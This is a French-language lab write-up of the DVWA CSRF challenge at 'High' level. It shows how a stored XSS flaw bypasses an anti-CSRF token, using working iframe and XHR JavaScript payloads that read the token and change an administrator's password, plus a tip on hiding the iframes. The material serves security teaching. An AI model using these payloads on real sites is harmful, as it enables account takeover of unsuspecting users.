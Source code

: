 # Niveau "High"

L’analyse du formulaire indique la présence d’un champ caché nommé "user\_token" \(il s'agit d'un jeton anti-CSRF\). La valeur de ce champ est régénérée pour chaque requête :

![](../../../../.gitbook/assets/0c0892194f080f693dd38eeb63b57a68.png)

La requête effectuée lors du changement du mot de passe est de type **`GET`** :

![](../../../../.gitbook/assets/0ac49605cff888b7999e10835c367deb.png)

Les premiers tests à faire sont sans doute de vérifier la bonne implémentation du jeton. Que se passe t'il en cas de champ vide ou si le champ n'est pas présent ? Ici l'implémentation semble correcte et le jeton est donc obligatoire :

![](../../../../.gitbook/assets/3e8676642a89f875399827af3216b0c4.png)



Une faille XSS permet de contourner une protection basée sur un jeton anti-CSRF \(qu'il soit per-request ou per-session\). Cela se fait en deux étapes :

* Une première requête va permettre de récupérer un jeton CSRF présent sur la page du challenge
* Une seconde requête, comprenant le jeton fraîchement récupéré, va modifier le mot de passe de la victime

\*\*\*\*

**Exploitation via des iframes**

Nous affichons une première `<iframe>` qui va afficher la page du challenge afin de récupérer le jeton. La mécanique de récupération se fait grâce à la méthode `readFrame1()` :

```markup
<iframe src="http://192.168.56.203:8080/vulnerabilities/csrf" onload="readFrame1()" id="frame1"></iframe>
```

Voici la fonction `readFrame1()` \(hébergée dans un fichier nommé "csrf.js" sur un serveur malicieux\) :

{% code title="csrf.js" %}
```javascript
function readFrame() {
  var token='&user_token=' + document.getElementById("frame1").contentDocument.getElementsByName("user_token")[0].value;
  var link = "http://192.168.56.203:8080/vulnerabilities/csrf?password_new=hacked&password_conf=hacked&Change=Change"+token;
  document.getElementById("frame2").src=link;
}
```
{% endcode %}

La variable `token` va contenir la chaîne suivante : `"&user_token=jeton_csrf_récupérée"`. Nous allons ensuite assigner à une seconde `<iframe>` une URL représentant la requête **`GET`** effectuant le changement de mot de passe.

Cette `<iframe>` sera appelée de cette façon :

```markup
<iframe id="frame2"></iframe>
```

Ci-dessous la payload ainsi que son affichage lors de l'exécution. Bien penser à injecter la payload en mode "Low" mais de repasser en mode "High" pour son exploitation :

![](../../../../.gitbook/assets/3b6e8a0ec33f5961bef8be1b5f820505%20%281%29.png)

{% hint style="info" %}
Afin de rendre l'attaque plus discrète, il est possible de ne pas afficher les `<iframe>` grâce au style CSS `style="display:none"`
{% endhint %}

Une fois que l'administrateur visitera la page du challenge XSS, son mot de passe sera changé :

![](../../../../.gitbook/assets/1fb2b3663d21dad270b6c81e9e61e79c.png)

\*\*\*\*

**Exploitation via des requêtes XHR**

Un peu plus moderne, il est possible d'effectuer la même attaque en utilisant deux requêtes **`XHR`**. La première va permettre de récupérer le jeton :

```javascript
var xhr = new XMLHttpRequest();
xhr.open('GET', 'http://192.168.56.203:8080/vulnerabilities/csrf', true);
xhr.withCredentials = true;
xhr.responseType = "document";

xhr.onload = function () {
        var token = xhr.response.getElementsByName('user_token')[0].value;
        
        // Exécuter Requête 2, changement de mot de passe
};

xhr.send();
```

Et la seconde, d'effectuer le changement de mot de passe une fois la première requête exécutée \(et le jeton récupéré\) :

> ```javascript
>    // Requête 2
>    var xhr2 = new XMLHttpRequest();
>    xhr2.open('GET', 'http://192.168.56.203:8080/vulnerabilities/csrf/?password_new=hacked&password_conf=hacked&Change=Change&user_token=' + token, true);
>    xhr2.send();
> ```

La mise en place de la payload s'effectue toujours en se servant de la vulnérabilité XSS en niveau "Low" :

![](../../../../.gitbook/assets/7cf8487e2619f973ab30e38f5ea8f209.png)

Lorsque la victime exécutera la payload XSS cela va déclencher l'attaque CSRF \(repasser en "High"\) :

![](../../../../.gitbook/assets/8016744e58ba30e8ff427294598eacfc.png)

Le mot de passe de l'administrateur a bien été changé suite à sa visite \(du challenge XSS\) :

![](../../../../.gitbook/assets/94ceb456695bfa0da35e85c676d73400.png)



